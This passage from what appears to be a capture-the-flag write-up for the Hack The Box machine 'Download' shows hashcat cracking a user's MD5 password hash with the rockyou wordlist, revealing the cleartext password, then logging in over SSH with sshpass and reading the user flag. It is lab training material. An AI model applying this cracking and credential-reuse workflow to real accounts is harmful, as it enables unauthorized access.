           # | Name                                                       | Category
      ======+============================================================+======================================
        900 | MD4                                                        | Raw Hash
          0 | MD5                                                        | Raw Hash
         70 | md5(utf16le($pass))                                        | Raw Hash
       2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
       3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
       4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
      20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
       4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
       1000 | NTLM                                                       | Operating System
       9900 | Radmin2                                                    | Operating System
       8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)

    Please specify the hash-mode with -m [hash-mode].



I'll try with basic MD5 (`-m 0`) and it cracks instantly:



    $ hashcat -m 0 wesley.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting
    ...[snip]...
    f88976c10af66915918945b9679b2bd3:dunkindonuts



#### SSH

That password works as wesley on Download over SSH:



    oxdf@hacky$ sshpass -p dunkindonuts ssh wesley@download.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-155-generic x86_64)
    ...[snip]...
    wesley@download:~$



And I get `user.txt`:



    wesley@download:~$ cat user.txt
    a38f00da************************



## Shell as root

### Enumeration
